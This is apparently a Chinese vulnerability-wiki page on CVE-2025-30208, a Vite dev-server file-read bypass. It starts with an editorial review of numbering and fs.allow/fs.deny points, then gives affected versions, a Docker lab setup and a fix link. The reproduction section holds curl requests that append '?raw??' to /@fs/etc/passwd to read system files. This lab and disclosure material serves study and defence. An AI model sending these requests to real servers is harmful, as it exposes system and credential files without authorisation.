



## 核对与使用边界

- 明确更正：当前主编号是 CVE-2025-30208，旧 CNVD-2022-44615 为历史引用，不作为同一漏洞主编号。fs.allow 限制访问范围，fs.deny 是拒绝规则，两者不是一个概念；需分别依据补丁和请求路径解释。
- 开发服务器须网络可达，五条维护分支不能只留 6.2.x 元数据。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：列6.2&lt;=2、6.1&lt;=1、6.0&lt;=11、5&lt;=5.4.14、4&lt;=4.5.9，需显式网络暴露

代码与实验材料：有403对照与raw??两请求，图片未视检

来源证据范围：官方GHSA与NVD，旧CNVD仅关联

- **事实待核（1）**：旧CNVD不应并列作本漏洞主编号；依据：元数据cnvd2022-44615属于历史问题，本篇为后续CVE，应标关系字段。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：fs.allow与fs.deny概念混用；依据：描述允许范围外文件却称deny功能，/etc/passwd例子主要体现根目录边界，应按官方补丁说明区分。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（3）**：元数据版本只保留单分支；依据：version仅6.2段，正文有五分支，结构化应完整。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Vite 开发服务器任意文件读取漏洞绕过 CVE-2025-30208

## 漏洞描述

Vite 是一个现代前端构建工具，为 Web 项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用 Rollup 打包代码的构建命令。

在 Vite 6.2.3、6.1.2、6.0.12、5.4.15 和 4.5.10 版本之前，用于限制访问 Vite 服务允许列表之外的文件的 `server.fs.deny` 功能可被绕过。通过在 URL 的 `@fs` 前缀后增加 `?raw??` 或 `?import&raw??`，攻击者可以读取文件系统上的任意文件。

此漏洞发生的原因是，在请求处理过程中尾部分隔符（如 `?`）在多个地方被移除，但在查询字符串正则表达式中没有考虑，导致安全检查被绕过。

这个漏洞是 [CNVD-2022-44615](https://github.com/vulhub/vulhub/blob/master/vite/CNVD-2022-44615/README.zh-cn.md) 补丁的绕过。

参考链接：

- [https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w](https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w)
- [https://nvd.nist.gov/vuln/detail/CVE-2025-30208](https://nvd.nist.gov/vuln/detail/CVE-2025-30208)

## 漏洞影响

```
6.2.0 <= Vite <= 6.2.2
6.1.0 <= Vite <= 6.1.1
6.0.0 <= Vite <= 6.0.11
5.0.0 <= Vite <= 5.4.14
Vite <= 4.5.9
```

只有明确将 Vite 开发服务器公开到网络（使用 `--host` 或 `server.host` 配置选项）的应用程序才会受到影响。

## 环境搭建

Vulhub 执行以下命令启动 Vite 6.2.2 开发服务器：

```
docker compose up -d
```

服务器启动后，可以通过访问 `http://your-ip:5173` 来访问 Vite 开发服务器。

> 注意：旧版本 Vite 的开发服务器默认端口为 3000，新版本默认端口为 5173，请注意区分。

## 漏洞复现

尝试使用标准的 `@fs` 前缀访问 `/etc/passwd`，测试正常访问是否会被限制：




可见，当发送请求到 `http://your-ip:5173/@fs/etc/passwd` 时，你会收到 403 Forbidden 响应，因为这个路径在 Vite 服务的允许范围之外。

通过在 URL 后附加 `?raw??` 或 `?import&raw??`，你就可以绕过这个限制并获取文件内容：

```shell
curl "http://your-ip:5173/@fs/etc/passwd?raw??"

# or
curl "http://your-ip:5173/@fs/etc/passwd?import&raw??"
```

这个请求将会返回 `/etc/passwd` 文件的内容：







## 漏洞修复

目前官方已发布新版本修复该漏洞，下载链接： https://github.com/vitejs/vite/releases


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
